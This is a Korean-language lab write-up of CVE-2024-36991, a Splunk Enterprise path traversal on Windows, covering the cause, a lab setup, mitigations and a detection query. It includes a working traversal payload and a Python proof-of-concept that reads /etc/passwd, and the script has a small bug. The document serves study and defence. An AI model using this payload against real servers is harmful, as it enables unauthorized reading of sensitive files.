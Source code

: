 ```yaml
---
layout: default
title: cve-2024-36991
category: "etc"
nav_order: 4
parent: cve
---
```


# cve-2024-36991
{: .no_toc }

Splunk Enterprise Path Traversal 취약점
{: .fs-6 .fw-300 }

[NVD][NVD]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[Splunk][Splunk]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[PoC][PoC]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}

1. TOC
{:toc}

--- 

## 1.1 취약점 요약
Splunk의 /modules/messaging/ 엔드포인트에서 발생하는 경로 탐색(Path Traversal) 취약점

## 1.2 취약 대상
- Windows 환경에서 동작하는 Splunk Enterprise에서 다음 버전이 영향
- Splunk Enterprise 9.2.0 ~ 9.2.1
- Splunk Enterprise 9.2.2
- Splunk Enterprise 9.1.0 ~ 9.1.4
- Splunk Enterprise 9.1.5
- Splunk Enterprise 9.0.0 ~ 9.0.9
- Splunk Enterprise 9.0.10

## 1.3 공격 원리
- 취약점은 /modules/messaging/ 엔드포인트에 조작된 경로를 포함한 url을 요청
- Splunk Web은 해당 경로를 os.path.join[주1] 함수를 사용하여 결합 
- Winodws 환경에서는 중복된 드라이브 문자가 제거되는 특성을 이용
- 공격자는 이 취약점을 악용하여 민감한 파일에 접근하여 정보를 탈취
![](../../assets/images/cve-2024-36991/1.png)

---

## 1.4 Splunk의 취약한 설정 분석
- CVE-2024-36991의 취약점이 존재하는 환경은 다음과 같은 조건을 만족
- Splunk Web 활성화, Windows 환경에서 동작, modules/messaging 엔드포인트가 open
- 이러한 조건을 갖춘 환경에서는, 공격자가 조작된 URL을 통해 경로 탐색(Path Traversal) 공격 가능 

<br>

- 이 취약점은 Splunk Web이 활성화된 인스턴스에서 발생
- Splunk Web의 설정 파일(web.conf)에서 startwebserver 옵션을 1로 설정하여 취약한 환경 구현
![](../../assets/images/cve-2024-36991/2.png)

<br> 

- Windows환경에서 os.path.join() 함수가 어떻게 작동하는지 확인
- Splunk의 /modules/messaging/ 엔드포인트는 파일을 불러올 때 사용자가 입력한 경로를 합쳐 처리
- 정상적인 경우, os.path.join()은 경로를 연결 (C:\Program Files\Splunk\data\logs\test.log)
 ![](../../assets/images/cve-2024-36991/3.png)

 <br>

- 비정상적인 경우, 공격자가 새로운 “C:\\” 경로를 추가
- “C:\\”(드라이브 문자가 다시 등장하는 경우) 이후의 값을 기준으로 새로운 경로를 생성
- 결과적으로 기본 경로가 무시되고 공격자가 원하는 파일로 접근(C:\\SKT\\Infra보안\\skt_nsc.excel)
![](../../assets/images/cve-2024-36991/4.png)

---

## 1.5 환경 구성
- Victim: Windows10 (IP: 192.168.253.123)
- Attacker: Windows10 (IP: 192.168.253.77)

<br>

- 취약한 Splunk 서버 환경 구축 (Splunk Enterprise 9.1.2)
- 취약점이 존재하는 Splunk Enterprise 9.1.2 서버 구축
![](../../assets/images/cve-2024-36991/5.png)

---

## 1.6 공격 재현
- Python을 이용한 조작된 GET 요청을 통한 Splunk 서버 공격
- 조작된 경로 생성 (“/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd”)
- 조작된 GET 요청을 서버로 전송하고, 응답에서 /etc/passwd 파일 노출 확인

```py
url = "http://192.168.253.123:8000"
attack_url = "/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd"
def attack_request(url):
    try:
        fullurl = f"{url}{attack_url}" # 조작된 경로를 포함한 URL 생성
        response = requests.get(fullurl, verify=False)
        if response.status_code == 200:
            body = requests.text
            # 응답에서 'admin:' 문자열이 포함되면 출력
            if body is not None and 'admin:' in body:
                print_message('vulnerable', f"Vulnerable: {url}")
                print(body) # 서버에서 응답받은 파일 내용 출력
        else:
            print_message("warning", f"Not Vulnerable: {url}")
            return response.text 
    except requests.RequestException:
        return None
```

<br>

- 실제 /etc/passwd 파일은 아래와 같음
![](../../assets/images/cve-2024-36991/6.png)

<br>

- 공격 실행 결과, 서버에서 /etc/passwd 파일의 실제 내용이 성공적으로 출력
![](../../assets/images/cve-2024-36991/7.png)

<br>

- Burp Suite를 사용하여 실제 페이로드의 응답을 확인한 결과, /etc/passwd 파일의 내용이 포함
![](../../assets/images/cve-2024-36991/8.png)

---

## 1.7 대응 방안
- Splunk Enterprise 버전 9.2.1 이상으로 업데이트
- Splunk Web 비활성화
- Splunk /modules/messaging/ 경로 탐색(Path Traversal) 공격 탐지 쿼리

```spl
`splunkd_web` method=GET uri_path="/*/modules/messaging/*..*" 
| stats min(_time) as firstTime max(_time) as lastTime values(method) as method values(uri_path) as uri_path by host 
| `security_content_ctime(firstTime)` 
| `security_content_ctime(lastTime)` 
| `splunk_unauthenticated_path_traversal_modules_messaging_filter`
```

--- 

[NVD]: https://nvd.nist.gov/vuln/detail/cve-2024-36991
[Splunk]: https://advisory.splunk.com/advisories/SVD-2024-0711
[PoC]: https://github.com/bigb0x/CVE-2024-36991
